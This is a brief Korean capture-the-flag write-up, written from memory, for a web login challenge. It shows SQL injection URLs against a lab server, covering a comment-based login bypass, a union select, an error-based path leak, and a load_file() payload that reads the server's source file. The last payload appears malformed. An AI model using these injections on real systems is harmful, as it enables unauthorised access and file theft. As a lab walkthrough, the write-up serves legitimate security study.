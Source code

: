 # [2017_BOB] \[WEB] ???

\* 서버가 닫혀 있는 관계로 기억을 바탕으로 작성한 Write-up입니다.

### Problem

로그인 창이 뜹니다. admin 문자열이 들어가기만하면 무조건 로그인 실패가 뜹니다. 즉, admin으로 로그인해서 플래그를 추출하는 문제가 아닙니다. 힌트에 load_file 함수를 쓰라고 나옵니다.



### Solution

`http://192.168.32.74/admin/?id=guest' -- &pw=guest`로 접속하면 `Hi, guest!` 문자열이 뜨면서 guest 계정으로 로그인이 되는 것을 확인헀습니다.

`http://192.168.32.74/admin/?id=st' union select 1 -- &pw=guest`을 통해 `Hi, 1!` 문자열을 확인할 수 있었습니다.

`http://192.168.32.74/admin/?id=aaa&pw[]=guest`로 접속하면 에러 메시지가 뜨면서 index.php 파일의 절대경로를 확인할 수 있습니다.

`http://192.168.32.74/admin/?id=guest%27%20--%20&pw=guest)load_file("APM_Setup/b0bf050d2ab945918deb004b10f25b01/www/index.php") -- &pw=guest`로 접속하면 index.php 파일의 소스코드가 출력되면서 flag를 확인할 수 있습니다.